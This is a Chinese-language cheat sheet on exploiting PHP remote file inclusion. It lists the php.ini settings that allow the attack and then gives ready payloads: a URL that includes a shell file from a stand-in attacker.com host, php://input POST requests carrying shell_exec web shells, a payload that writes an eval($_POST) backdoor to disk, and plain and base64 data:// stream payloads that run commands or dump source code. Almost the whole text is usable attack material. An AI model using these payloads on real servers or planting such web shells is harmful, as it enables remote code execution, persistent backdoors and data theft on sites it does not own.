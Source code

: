# 远程文件包含
漏洞执行条件：

php.ini中下列两个选项开启

```
allow_url_fopen = On
allow_url_include = On
```

## 1) 直接远程包含
```
http://www.site.com/lfi.hpp?page=http://attacker.com/shell.txt
```
如果限定了后缀可以在后面加个?号，使后面的被解析为参数

```
http://www.site.com/lfi.hpp?page=http://attacker.com/shell.txt?
```

## 2) php://input
利用php封装协议php://input和data://，包含post数据造成php命令执行
```
POST /lfi.php?page=php://input&cmd=cd HTTP/1.1
Host: www.site.com
Content-Lenth: 39
```

```
<?php echo shell_exec($_GET['cmd']);?>
```

 POST提交

```
 <?php fwrite(fopen("xxx.php","w"),'<?php eval($_POST["cc"]);?>');?>
```

## 3) Data:text/plain
通过数据流包含php代码

```
http://www.site.com/lfi.php?page=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>

http://www.site.com/lfi.php?page=data:text/plain;base64,PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWydjbWQnXSk7Pz4=
```

```
include.php?file=data:text/plain,<?php show_source("index.php"); ?>

index.php?page=include.php?file=data:text/plain;base64,PD9waHAgc2hvd19zb3VyY2UoImluZGV4LnBocCIpOyA/Pg==
```
